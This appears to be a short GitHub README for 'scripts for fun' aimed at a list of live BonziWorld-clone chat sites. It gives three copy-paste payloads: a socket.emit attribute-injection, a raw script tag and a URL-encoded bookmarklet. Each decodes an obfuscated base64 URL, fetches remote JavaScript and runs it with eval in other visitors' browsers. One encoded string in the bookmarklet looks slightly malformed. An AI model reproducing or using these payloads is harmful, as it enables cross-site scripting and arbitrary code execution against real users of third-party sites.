# ULTIMATE JAVASCRIPT
Scripts for fun
# How to use?
simply go into the websites list and
paste this script<br>
`socket.emit('command', { list: ['youtube', '71Uyt5tTnyg" onload="fetch(atob(\'aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v\')+\'???\'+atob(\'Lmpz\')).then(r=>r.text()).then(t=>eval(t))" u="'] });`<br>
and if you have sanitize off do this<br>
`<script>fetch(atob('aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v')+'???'+atob('Lmpz')).then(r=>r.text()).then(t=>eval(t))</script>`<br>
if you'd like you wanna press it from the bookmark<br>
`javascript:const%20jvnm%20%3D%20prompt%28%22Enter%20script%20name%20%28UPPERCASE%20ONLY%29%3A%22%29%3B%20const%20vidid%20%3D%20prompt%28%22YTVideo%20id%2C%20%28OPTIONAL%29%22%29%3Bsocket.emit%28%27command%27%2C%20%7B%20list%3A%20%5B%27youtube%27%2C%20%60%22%24%7Bvidid%7D%22%20onload%3D%22fetch%28atob%28%27aHR0cHM6Ly9yYXcuZ2l0aHVidXNlcmNvbnRlbnQuY29tL2l2b3J5ZGV2cmltb2FsdC9CT05aSVdPUkxEVUxUUkFKQVZBU0NSSVBUTElTVC9yZWZzL2hlYWRzL21haW4v%27%29%29%2Bjvnm%2Batob%28%27.mpz%27%29%29.then%28r%3D%3Er.text%28%29%29.then%28t%3D%3Eeval%28t%29%29%22%20u%3D%22%60%5D%7D%29%3B`
# What are the websites?
https://bonziworld-classic-plus-plus-edition-mlcr.onrender.com<br>
https://bonziworld-revived-1.onrender.com<br>
https://seamusmario-s-bonziworld-revived-2020-qsal.onrender.com<br>
https://bonziworld-revived-2-sll4.onrender.com<br>
https://marginworld.onrender.com<br>
https://bonziworld-revived.zapto.org<br>
https://bonziworldberylicarus.onrender.com
